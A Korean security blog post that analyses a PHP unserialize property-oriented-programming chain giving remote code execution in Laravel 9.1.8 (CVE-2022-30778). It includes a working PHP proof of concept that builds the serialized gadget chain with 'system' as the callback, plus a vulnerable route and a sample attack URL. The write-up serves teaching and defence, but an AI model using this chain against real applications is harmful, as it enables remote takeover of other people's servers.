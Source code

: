 ```yaml
---
title: "[하루한줄] unserialize가 위험한 이유 (feat. POP Chain)"
author: syru
tags: [syru, laravel, pop, php, magic method, property oriented programming, rce]
categories: [1day1line]
date: 2022-05-22 18:00:00
cc: true
---
```

### URL

https://github.com/1nhann/vulns/issues/1

### Target

- Laravel 9.1.8

### Prologue

이 글은 `unserialize` 가 위험한 이유와 `Property Oriented Programming` 기법을 활용하는 방법에 초점을 맞춰서 읽어주시면 감사하겠습니다

분석 글을 신나게 쓴 후 다시 소셜네트워크를 구경하는데 [이런 이야기](https://twitter.com/steventseeley/status/1526531480092037124)를 보게 되었습니다.

![Tweet claiming that shouldb't be get cve](cve-2022-30778/tweet.png)

이 CVE가 Laravel Framework 내부 `unserialize` 메소드를 사용하는 부분에서 발생하는 것이 아닌 사용자가 `unserialize` 를 사용하면 발생하는 부분이었고 이는 CVE 번호를 할당받으면 안 된다는 주장이었습니다.

필자도 CVE 할당에 문제가 있음을 느꼈는데요. 이 취약점을 다른 공격기법으로 비유하면 `gets`에 대해 ROP Chain가 터진다고 할당받은 것인데 이런 CVE는 수백 수천 개도 나올 수 있지요.

하지만 이 글은 공격기법에 대한 설명이 주를 이루고 있어서 독자분들에게 여전히 도움이 될 수 있다고 판단하여 내리지는 않겠습니다.

### Explain

Laravel 9.1.8 버전에서 유저 입력을 `unserialize` 메소드를 통해 역직렬화 한 후 사용할 때 POP chain을 통해 RCE 할 수 있는 취약점이 발견되었습니다.

PHP는 [Magic Method](https://www.php.net/manual/en/language.oop5.magic.php)라고 하여 프로그래머가 명시적으로 호출하지 않아도 자동으로 호출되는 메소드들이 있습니다. 이 Magic Method를 유저의 입력값으로 덮어씌워 일종의 gadget으로 사용할 수 있습니다. 이 gadget들을 활용하여 exploit chain을 구성한 것을 Property Oriented Programming Chain이라고 합니다.

해당 취약점에서 사용하는 gadget은`PendingBroadcast.__destruct`와 `Dispatcher.dispatch($command)` 입니다.

`PendingBroadcast` 인스턴스가 소멸될 때 `__destruct` 메소드가 자동으로 호출됩니다.

```php
class PendingBroadcast
{
    /**
     * The event dispatcher implementation.
     *
     * @var \Illuminate\Contracts\Events\Dispatcher
     */
    protected $events;
    ...
	// illuminate/broadcasting/PendingBroadcast.php#L70-L73
    public function __destruct()
    {
        $this->events->dispatch($this->event);
    }
	...
}
```

이 메소드는 event dispatcher의 `dispatch` 메소드를 호출해주기 때문에 dispatch 호출이 필요할 때 gadget으로 사용할 수 있습니다.

`Illuminate\Bus\Dispatcher`는 `Illuminate\Contracts\Events\Dispatcher` 의 구현체입니다.

```php
// illuminate/bus/Dispatcher.php#L74-L79
public function dispatch($command)
{
    return $this->queueResolver && $this->commandShouldBeQueued($command)
                    ? $this->dispatchToQueue($command)
                    : $this->dispatchNow($command);
}

// illuminate/bus/Dispatcher.php#L202-205
protected function commandShouldBeQueued($command)
{
    return $command instanceof ShouldQueue;
}

// illuminate/bus/Dispatcher.php#L219
public function dispatchToQueue($command)
{
    $connection = $command->connection ?? null;
    $queue = call_user_func($this->queueResolver, $connection);
		...
}
```

 해당 객체 내 `dispatchToQueue` 메소드를 확인해 보면 `call_user_func`  를 사용하여 `$connection`을 인자로 하는 `QueueResolver` callback을 호출하게 됩니다.  `queueResolver`와 `$connection`는 원하는 값으로 지정할 수 있으므로 결과적으로 우리가 원하는 값을 인자로 하여 원하는 함수를 실행할 수 있는 가젯으로 쓸 수 있습니다.

앞서 `dispatch`를 호출할 수 있는 가젯을 찾은 상태에서 `dispatchToQueue`를 가젯으로 사용하려면 몇 가지 조건이 필요합니다.

- `$this->queueResolver != null`
- `$command instanceof ShouldQueue` == `True`

이 조건 들을 생각하면서 `system(cmd)` 함수를 실행하도록 Property Oriented Programming을 다음과 같이 할 수 있습니다.

1. `ShouldQueue`인터페이스를 implement한 Event 객체를 하나 만듭니다.
2. `Dispatcher.__construct`를 통해서 `queueResolver`를 `system`으로 지정해줍니다.
3. `PendingBroadcast.__construct`를 통해서 (1)에서 만든 Event 객체와 (2)에서 만든 Dispatcher를 각각 `event`와 `events`에 할당해주고 `event->$connection`을 `cmd`로 지정해줍니다.

이렇게 만든 객체를 직렬화해주고 인자로 보내면 됩니다.

위 프로그래밍은 아래 코드처럼 진행하면 됩니다.
 ```php
<?php
namespace Illuminate\Contracts\Queue{
    interface ShouldQueue
    {
        //
    }
}

namespace Illuminate\Bus{
    class Dispatcher{
        protected $container;
        protected $pipeline;
        protected $pipes = [];
        protected $handlers = [];
        protected $queueResolver;
        function __construct()
        {
            $this->queueResolver = "system";

        }
    }
}

namespace Illuminate\Broadcasting{

    use Illuminate\Contracts\Queue\ShouldQueue;

    class BroadcastEvent implements ShouldQueue {
        function __construct()
        {

        }
    }
    class PendingBroadcast{
        protected $events;
        protected $event;
        function __construct()
        {
            $this->event = new BroadcastEvent();
            $this->event->connection = "id";
            $this->events = new \Illuminate\Bus\Dispatcher();
        }
    }
}
namespace{
    $a = new \Illuminate\Broadcasting\PendingBroadcast();
    echo base64_encode(serialize($a));
}
?>
 ```
base64 encoding되어 나온 직렬화된 exploit은 아래와 같은 구조에서 RCE를 유발할 수 있습니다.

```php
<?php
use Illuminate\Support\Facades\Route;

/*
|--------------------------------------------------------------------------
| Web Routes
|--------------------------------------------------------------------------
|
| Here is where you can register web routes for your application. These
| routes are loaded by the RouteServiceProvider within a group which
| contains the "web" middleware group. Now create something great!
|
*/

Route::get('/', function (\Illuminate\Http\Request $request) {
    $serializedObj = base64_decode($request->input("q"));
    unserialize($serializedObj);
    return "ok";
});
?>
/*   Attack Example
 *   <http://site/?q={generated_base64_code}>
 */
```
